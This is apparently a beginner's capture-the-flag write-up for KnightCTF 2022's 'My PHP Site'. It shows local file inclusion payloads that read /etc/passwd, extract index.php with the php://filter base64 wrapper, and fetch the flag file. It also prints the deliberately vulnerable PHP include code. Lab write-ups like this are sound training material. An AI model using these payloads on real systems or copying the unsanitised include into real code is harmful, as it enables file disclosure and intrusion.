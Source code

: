 <h1>My PHP Site ( KnightCTF 2022 )</h1>


Hey there its my first writeup.<br/><br/><br/><br/>
So follwoing the link of challenge we find ourself in a webpage, which contains:<br/><br/>
![Alt Text](img/php.png)
<br/><br/>
As you may already know php based websites are full of vulns.<br/><br/>
Getting a closer look at the link, we see the parametre: `/?file=index.html`<br/><br/>
Immediatly we think about an LFI ( Local File Inclusion ).<br/><br/>
Let's try getting something with it:<br/><br/>
`/?file=/etc/passwd`<br/><br/>
YEP, we got an LFI, nothing to find on the /etc/passwd though.<br/><br/>
Let's try getting the source code:<br/><br/>
`/?file=index.php`<br/><br/>
We get some kind of error<br/><br/>
![Alt Text](img/err.png)
hmmm I wonder why, most likely due to the large size of the index.php file....let's use a php filter, the base64 one for example.<br/><br/>
`/?file=php://filter/convert.base64-encode/resource=index.php`<br/><br/>
We got the source code:<br/><br/>
```PD9waHAKCmlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKXsKICAgIGlmICgkX0dFVFsnZmlsZSddID09ICJpbmRleC5waHAiKSB7CiAgICAgICAgZWNobyAiPGgxPkVSUk9SISE8L2gxPiI7CiAgICAgICAgZGllKCk7CiAgICB9ZWxzZXsKICAgICAgICBpbmNsdWRlICRfR0VUWydmaWxlJ107CiAgICB9Cgp9ZWxzZXsKICAgIGVjaG8gIjxoMT5Zb3UgYXJlIG1pc3NpbmcgdGhlIGZpbGUgcGFyYW1ldGVyPC9oMT4iOwoKICAgICNub3RlIDotIHNlY3JldCBsb2NhdGlvbiAvaG9tZS90YXJlcS9zM2NyRXRfZmw0OS50eHQKfQoKPz4KCjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI```<br/><br/>
Let's decode it from base64.<br/><br/>
`base64 -d index`<br/><br/>
We get the php source code.<br/><br/>
```<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>
```
Straight to the flag!<br/><br/>
`/?file=s3crEt_fl49.txt`<br/><br/>
Bingo<br/><br/>
![Alt Text](img/flag.png)<br/><br/>


